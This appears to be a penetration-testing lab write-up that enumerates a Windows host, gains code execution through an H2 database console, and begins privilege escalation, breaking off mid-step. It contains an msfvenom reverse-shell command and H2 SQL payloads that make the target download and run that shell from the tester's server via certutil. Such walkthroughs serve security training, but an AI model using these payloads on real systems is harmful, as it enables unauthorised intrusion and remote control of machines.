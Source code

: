 ## First eumeration with nmap 

```shell
# Nmap 7.94SVN scan initiated Tue Feb 27 17:09:48 2024 as: nmap -sC -sV -T4 -oN service.nmap -p 80,135,139,445,5040,8082,9092 -Pn 192.168.154.66
Nmap scan report for 192.168.154.66
Host is up (0.63s latency).

PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: H2 Database Engine (redirect)
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
5040/tcp open  unknown
8082/tcp open  http          H2 database http console
|_http-title: H2 Console
9092/tcp open  XmlIpcRegSvc?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 37s
| smb2-time: 
|   date: 2024-02-27T16:13:15
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Feb 27 17:12:58 2024 -- 1 IP address (1 host up) scanned in 189.71 seconds
```


## Enumerating port 8082

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/4ed75590-f6a9-4d82-a440-4d918e1e426a)

from the nmap scan we notice a `H2 databases` service is running on port `8082`. opening it on a browser we got a login page. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/7e2fb844-45d6-4956-9e29-2a83fa846081)

clicking the connect button and was able to login

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/099986c2-6a59-47bc-83da-da0a5dc8d405)

checking online found an exploit on [exploit-db](https://www.exploit-db.com/exploits/49384). 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/9aaf39f5-dd19-442e-a3c6-c2adbedec9b8)

follow the exploitation steps. and we can trigger RCE. 

```shell
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/PGP/Jacko]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.187 LPORT=443 -f exe -o reverse.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: reverse.exe
```
first generate a reverse shell payload with msf venom. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/f29ea086-1cee-4e77-ad2c-bcb9d38d8d9e)

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/d5ddeea1-d614-4827-8f74-3149df6ccb48)

```
CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("certutil -urlcache -f http://192.168.45.187/reverse.exe C:\\Users\\Public\\shell.exe").getInputStream()).useDelimiter("\\Z").next()');
```
upload the shell into the target. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/e9500a1c-34ae-451b-b8d5-343ac58de7a0)

```shell
CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("C:\\Users\\Public\\shell.exe").getInputStream()).useDelimiter("\\Z").next()');
```
trigger the shell

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/ad0ae499-187a-4ec7-97e9-3c1dc0d79b8b)

Boom we got a reverse shell. 


## Privilege Escalation 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/79696594-7e0b-433f-b070-56c39059a9aa)

running whoami cmmand was not working, so we upload `whoami.exe` bin to the target. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/5f087391-13ec-417b-9a9e-a2d5ed9ff07b)

checking the privs we can run, we got to see user `tony` has `SeImpersonatePrivilege` enabled, let's run printspoofer.exe. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/a5d64b08-8c78-4a00-9e44-b2a9bd5af0ee)

upload prinspoofer.exe 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/cb2a1a72-4752-45c7-a599-d9548c144ac6)

printspoofer did not work, so we used `godpototato.exe`. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/ba7023b7-52ea-4237-b6a6-c7d1e560b532)

spawned a cmd shell... 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/f94c0389-3347-45be-8f74-4291b70c3093)

cmd shell didn't work, so upload a `net.exe`. 


